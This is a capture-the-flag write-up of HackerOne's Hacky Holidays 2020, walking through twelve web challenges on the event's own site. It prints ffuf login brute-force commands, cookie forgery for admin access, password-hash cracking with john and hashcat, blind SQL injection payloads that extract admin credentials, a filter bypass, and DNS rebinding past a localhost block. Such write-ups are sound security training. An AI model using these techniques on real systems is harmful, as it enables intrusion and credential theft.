


# Hacky Holidays 2020 CTF Writeup

With the arrival of the Christmas holydays, Hackerone hosted a CTF with a main topic :

>The Grinch has gone hi-tech this year with the intentions of ruining the holidays and we need you to infiltrate his network and take him down! 

### Summary :


## Day 1
The CTF begins with a tweet :  


Going to the H1 CTF program page https://hackerone.com/h1-ctf, we have a domain in scope : **hackyholidays.h1ctf.com**  
To start with, we don't have much on the website, so I started a recon phase and came across the robots.txt file that will give us the first flag !  

=> https://hackyholidays.h1ctf.com/robots.txt
  
```
User-agent: *
Disallow: /s3cr3t-ar3a
Flag: flag{48104912-28b0-494a-9995-a203d1e261e7}
```
  

The robots.txt file will give us a track for the second flag with the 'Disallow' tag : ```Disallow: /s3cr3t-ar3a```.  

## Day 2 

We leave then on the url https://hackyholidays.h1ctf.com/s3cr3t-ar3a :   


First of all, we realize that the original page has been moved and that only the people authorized to see it, know where to go.  
By analyzing the code of the page, nothing interesting at first glance.  But by comparing the jquery file of the site and the original, we realize that this one has been modified in order to display the flag !  


Then we find the flag : ```flag{b7ebcb75-9100-4f91-8454-cfb9574459f7}```  and we find the way for the next challenge ```next-page="/apps"``` ! 

## Day 3 - People Rater

On the /apps page, we get the link to go to the **people-rater** application, once on the application, we have a list of people, clicking on each of them we get details about the current person.  

 

Details about Tea Avery : 

  

By decoding in Base64 the ID parameter : ```echo 'eyJpZCI6Mn0=' | base64 -d ```  => ```{"id":2}```  
In this kind of case, authorization vulnerabilities may exist, so I try to change ```{"id":2}``` to ```{"id":1}```.  
All encoded in base64, we get access to **The Grinch** user information details !   

  


**FLAG 3 : flag{b705fb11-fb55-442f-847f-0931be82ed9a}**  

## Day 4 - Swag shop
On this app, main goal is : 
> Get your Grinch Merch! Try and find a way to pull the Grinch's personal details from the online shop.  

When we arrive on the application, we have 3 products for sale, the source code tells us more about how the application works.  
We have the following javascript code: 

```
$.getJSON("/swag-shop/api/stock", function(o) {
    $.each(o.products, function(o, t) {
        $(".product-holder").append('<div class="col-md-4 product-box"><div></div><div class="text-center product-name">' + t.name + '</div><div class="text-center product-cost">&dollar;' + t.cost + '</div><div class="text-center"><input type="button" data-product-id="' + t.id + '" class="btn btn-success purchase" value="Purchase"></div></div>')
    }), $("input.purchase").click(function() {
        $.post("/swag-shop/api/purchase", {
            id: $(this).attr("data-product-id")
        }, function(o) {
            window.location = "/swag-shop/checkout/" + o.checkoutURL
        }).fail(function() {
            $("#login_modal").modal("show")
        })
    })
}), $(".loginbtn").click(function() {
    $.post("/swag-shop/api/login", {
        username: $('input[name="username"]').val(),
        password: $('input[name="password"]').val()
    }, function(o) {
        document.cookie("token=" + o.token), window.location = "/swag-shop"
    }).fail(function() {
        alert("Login Failed")
    })
});
```
Some paths seem interesting !  
Our goal here is to retrieve the Grinch's personal data.  
After a few attempts to bypass the authentication, I started a recon phase, thanks to this one, I was able to retrieve two new paths !  

With FFUF : ```ffuf -u https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ -w wordlist.txt -mc all -t 3```   
  
```
user                    [Status: 400, Size: 35, Words: 3, Lines: 1]
sessions                [Status: 200, Size: 2194, Words: 1, Lines: 1]
```

By examining the **sessions** path, I am able to retrieve several strings encoded in base64 :   
  
  
We notice that one of the character strings is longer than the others :   
```
echo -n "eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==" | base64 -d

{"user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}
```

Using the Arjun tool, we are then able to retrieve the valid parameters from the path '/swag-shop/api/user': 

 

Thanks to @s0md3v ! (https://github.com/s0md3v/Arjun)

Now, you just have to request ```/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043```  : 

```
{
  "uuid": "C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
  "username": "grinch",
  "address": {
    "line_1": "The Grinch",
    "line_2": "The Cave",
    "line_3": "Mount Crumpit",
    "line_4": "Whoville"
  },
  "flag": "flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"
}
```

## Day 5 - Secure Login

On this app, main goal is : 
> Try and find a way past the login page to get to the secret area.

We just have a login interface : 

 
  
After a few attempts to bypass the authentication, I started a phase of brute force on the login interface.  
**FFUF again !!**

To be able to retrieve the username, I used :  
```
ffuf -X POST -u https://hackyholidays.h1ctf.com/secure-login -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=grinch" -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -fr 'Invalid Username'
```

And to be able to retrieve the password, I used :   
```
ffuf -X POST -u https://hackyholidays.h1ctf.com/secure-login -H "Content-Type: application/x-www-form-urlencoded" -d "username=access&password=FUZZ" -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt -fc 200
```

We are then able to log in with the credentials  : **username=access&password=computer**  

Once logged in, we get a session cookie :  ```eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=```
By decoding it, we can see that it is a user whose role is not admin : 
```
echo 'eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=' | base64 -d  

{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}
```

I just have to change **false** to **true** and encode the new cookie :   

```
echo '{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":true}' | base64

eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQo=
```

We get admin access to the application :  

 

I finally retrieve the .zip file but this one is protected by a password, so I used the following commands to break the password : 

```
zip2john  my_secure_files_not_for_you.zip > hash.txt

john --wordlist=/usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt hash.txt
```

Password : **hahahaha**

Inside flag.txt => **FLAG : flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}**  

## Day 6 - My Diary

On this app, main goal is : 
> Hackers! It looks like the Grinch has released his Diary on Grinch Networks. We know he has an upcoming event but he hasn't posted it on his calendar. Can you hack his diary and find out what it is ?

We arrive on the url : https://hackyholidays.h1ctf.com/my-diary/?template=entries.html


By making an enumeration on the **template** parameter, we find an existing page: **index.php**, inside it, we find the following source code :  
```
<?php
if( isset($_GET["template"])  ){
    $page = $_GET["template"];
    //remove non allowed characters
    $page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
    //protect admin.php from being read
    $page = str_replace("admin.php","",$page);
    //I've changed the admin file to secretadmin.php for more security!
    $page = str_replace("secretadmin.php","",$page);
    //check file exists
    if( file_exists($page) ){
       echo file_get_contents($page);
    }else{
        //redirect to home
        header("Location: /my-diary/?template=entries.html");
        exit();
    }
}else{
    //redirect to home
    header("Location: /my-diary/?template=entries.html");
    exit();
}
```

We can see that the function **str_replace** is called twice in order to filter some patterns.  

```
- $page = str_replace("admin.php","",$page);  
- $page = str_replace("secretadmin.php","",$page);  
```

All we have to do is set up two bypasses to bypass this protection !  
The final request is therefore : ```/my-diary/?template=secretadsecretadmiadmin.phpn.phpmin.php```   

**FLAG : flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}**

## Day 7 - Hate Email Generator

We are informed that :
> Sending letters is so slow! Now the grinch sends his hate mail by email campaigns! Try and find the hidden flag!

We then get an interface with the old campaigns carried out :   


On this url ```https://hackyholidays.h1ctf.com/hate-mail-generator/91d45040151b681549d82d8065d43030```, we get details : 


First, we can see that HTML templates are called, I decide to fuzz the directories and I get the /templates/ directory, inside it, several templates are present : 

```
../
cbdj3_grinch_header.html                                     20-Apr-2020 10:00                   -
cbdj3_grinch_footer.html                                     20-Apr-2020 10:00                   -
38dhs_admins_only_header.html                                21-Apr-2020 15:29                  46
```

Second, we can see that the mail generation engine uses template variables in order to dynamically fill the sent mails.  
We can write our template and generate a preview before sending the campaign. By generating our template using the variable **name** previously called, we are able to have the template reserved for administrators interpreted !   


**FLAG : flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}**

## Day 8 - Forum

We have the description of the challenge :  
> The Grinch thought it might be a good idea to start a forum but nobody really wants to chat to him. He keeps his best posts in the Admin section but you'll need a valid login to access that !   

The first page looks like this :   


By clicking on the button **Login**, we arrive on a connection interface. Nothing interesting here.  
Searching on the forum, you won't find anything interesting either.   

By fuzzing the directories of the forum, we find the **/phpmyadmin** being exposed on internet ! But we don't have the credentials.  

I decide to embark on a phase of OSINT and to find the author of the forum !   

By searching on github, I find the source code of the forum :  https://github.com/Grinch-Networks/forum  

One technique is to look through the commits in the directory to see if there are any secrets that have not been added or removed. We find a commit containing login credentials to the forum database ! 

```
self::$read = new DbConnect( false, 'forum', 'forum','6HgeAZ0qC9T6CQIqJpD' );
```

we get access to the database exposed on /phpmyadmin : 


The login credentials of the user **grinch** seems interesting thanks to his administrator role : ```grinch:35D652126CA1706B59DB02C93E0C9FBF```  
The password being an MD5 hash, we find the password in clear : ```BahHumbug``` and we obtain an admin access on the application : 


And finally got the flag :   


**FLAG : flag{677db3a0-f9e9-4e7e-9ad7-a9f23e47db8b}**

## Day 9 - Evil Quiz

We have the description of the challenge :  
> Just how evil are you? Take the quiz and see! Just don't go poking around the admin area !
 
The home page looks like this :


The first step is to register on the site, then we are asked to complete a quiz and finally we get our evil score.  
On the score page, we have an important information for the resolution of the challenge, it is the number of other players with the same name as our user.  

For our first participation, we get : ```There is 1 other player(s) with the same name as you!```  

We quickly realize that by putting the payload ```louzogh' or 1=1#```, we fill out the quiz, we get the following result : ```There is 68852 other player(s) with the same name as you!```   

**So there is a Blind Boolean SQL injection !**  

We then put a condition on the string ```There is 0 other player(s) with the same name as you!``` to validate our condition in our SQL query !   
If the string ```There is 0 other player(s) with the same name as you!``` is not present in the answer of our request, then our SQL request is valid !   

I first retrieved the version and validated the database engine using the payload ```louzogh' or ascii(substring(@@version,<incremental counter>,1))=<characters>```  
The version was the latest version of the MySQL engine : ```8.0.22```.  

After a first automation, I find the name of the database : ```quiz```.

By using the payload ```louzogh' or (SELECT count(*) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'quiz')=2#```, we know that the database contains two tables.  

The payload ```louzogh' or (SELECT LENGTH(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'quiz' limit 0,1)=5#``` tells us that the first table is 5 characters long !  

Thanks to the payload ```data = {"name": "louzogh' or (select (select ascii(substring(TABLE_NAME," + str(count) + ",1)) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'quiz' limit 0,1))=" + str(offset) + "#"}``` and the ASCII table, we are able to retrieve the name of the table: ```admin```.  

The second table concerns the operation of the application, its name is : ```quiz```.  

By automating, we find that the first 3 columns of the ```admin``` table are : ```id, username, password```, so I stopped there and started the recovery of the admin users.  

The first user has ```id=1``` and his username is ```admin```.  

Finally, in order to retrieve the password of this user, I used the payload : 
```data = {"name": "louzogh' or (select (select ascii(substring(password," + str(count) + ",1)) FROM admin where id=1))=" + str(offset) + "#"}```.  

P.S : My script was python3, and I used the ASCII table to test the different characters (offset parameter).   

**The admin account was : admin:S3creT_p4ssw0rd-$**  

**FLAG : flag{6e8a2df4-5b14-400f-a85a-08a260b59135}**
 

## Day 10 - Signup Manager

Description of the challenge :  
> You've made it this far! The grinch is recruiting for his army to ruin the holidays but they're very picky on who they let in !  

The first page looks like this : 


Looking at the source code, we can see that there is a README.me file exposed.  

```
# SignUp Manager
SignUp manager is a simple and easy to use script which allows new users to signup and login to a private page. All users are stored in a file so need for a complicated database setup.

### How to Install
1) Create a directory that you wish SignUp Manager to be installed into
2) Move signupmanager.zip into the new directory and unzip it.
3) For security move users.txt into a directory that cannot be read from website visitors
4) Update index.php with the location of your users.txt file
5) Edit the user and admin php files to display your hidden content
6) You can make anyone an admin by changing the last character in the users.txt file to a Y
7) Default login is admin / password
```

You can then retrieve the source code on the following link :  ```https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip```  
Several files are present : 

```
- admin.php
- index.php
- signup.php
- user.php
```

By analyzing the files, we quickly realize that the most interesting thing happens in the file **index.php** because all the processing is done here.  
A users.txt file is generated with the following format : 
```(username(15) password(md5=>32) random-hash(md5=>32) age(3) firstname(15) lastname(15) N(admin:Y/N:1)=> 113```

To verify that a user has the administrator role, the ```'admin' => ((substr($user_str, 112, 1) === 'Y') ? true : false)``` function is performed by testing if the 112th character is equal to 'Y'.
I realize that if I want to become a user with the role of administrator, I must succeed in changing this last character. (the 112th character)  

All fields are correctly filtered with functions **substr** and **preg_replace** with the exception of the field **age** which is filtered by the function **is_numeric**.  
The **is_numeric** function is vulnerable to many bypasses :  https://github.com/w181496/Web-CTF-Cheatsheet#is_numeric  

By using the following parameters, I am then able to create a user with the administrator role : 

```action=signup&username=louzoghzzz67890&password=louzoghzzz12345&age=1e6&firstname=louzoghzzz1234&lastname=louzoghzzz1Y34```

The fact is : ```1e6 = 1000000```, which shifts the characters in the string of the file **users.txt** and thanks to my lastname parameter, I am able to replace the **N** by **Y**.  

Now, by logging in with the previously created user, we have administrator access :  



And we obtain the link for the next challenge ```/r3c0n_server_4fdk59``` in the source code.    

**FLAG : flag{99309f0f-1752-44a5-af1e-a03e4150757d}**

## Day 11 - Grinch Recon


## Day 12 - Grinch Network Attack Server

After finishing the challenge of day 11, we get access to the Attack Console ```https://hackyholidays.h1ctf.com/attack-box``` !  


Each attack button corresponds to an IP to be attacked and has the following payload :  

```
203.0.113.33
/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==
Decoded : {"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}

203.0.113.53
/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuNTMiLCJoYXNoIjoiMjgxNGY5YzczMTFhODJmMWI4MjI1ODUwMzlmNjI2MDcifQ==
Decoded : {"target":"203.0.113.53","hash":"2814f9c7311a82f1b822585039f62607"}

203.0.113.213
/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMjEzIiwiaGFzaCI6IjVhYTliNWE0OTdlMzkxOGMwZTE5MDBiMmEyMjI4YzM4In0=
Decoded : {"target":"203.0.113.213","hash":"5aa9b5a497e3918c0e1900b2a2228c38"}
```

Thanks to the hint of Hackerone, we know that hash is salted : 


I am then able to recover the salt that had been added to the hash, hash.txt looks like : 
```
2814f9c7311a82f1b822585039f62607:203.0.113.53
5aa9b5a497e3918c0e1900b2a2228c38:203.0.113.213
```

By using hashcat command, i'm able to retrieve the salt : 

```hashcat -m 10 -a 0  hash.txt /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt```  
Salt : ```mrgrinch463```  

I decide to launch a first attack on the ip **203.0.113.33** in order to see the workflow of the attack : 


The first idea that came to me is to attack the localhost (127.0.0.1).  
So I generated a hash corresponding to ```127.0.0.1``` with the salt ```mrgrinch463``` and I encoded the payload in base64 : 

```
echo '{"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}' | base64 

eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQo=  
```  

Once the attack is launched, we are directly blocked because we are not allowed to attack the localhost.  


My idea was good and I decide to continue attacking the localhost by trying different bypasses.  
First of all, I try to launch an attack on **192.168.1.1.zip.io** to see the workflow of the attack on a host :   


We can see that the attack takes place in several stages :
- First, Getting Host Information  
- Then, a resolution of the host  
- If the host does not resolve on the localhost, then the attack is launched on the host as well as its first resolution.  
- Finally, a **ping** command is launched to check if the target is still up or not.  

Everything seems to be blocked when I try to launch an attack on the localhost, my last card in hand is DNS Rebinding but I don't know how to implement it without having my own domain.  
I do a lot of research and I come across the ```https://lock.cmpxchg8b.com/rebinder.html``` tool, which is absolutely great, I would like to thank the creator !   

The tool is very easy to use :  


  
I am then able to set up two DNS records, the first one pointing to **192.168.0.1** and the second one pointing to **127.0.0.1**.  
I repeat the process of sending my payload and I generate a new payload with the domain **c0a80001.7f000001.rbndr.us**. 

I launch the attack with my new payload : 


And finally I am redirected to ```https://hackyholidays.h1ctf.com/attack-box/challenge-completed-a3c589ba2709```.  

  

**Final FLAG : flag{ba6586b0-e482-41e6-9a68-caf9941b48a0}**


#### References
- https://github.com/ffuf/ffuf ;D 


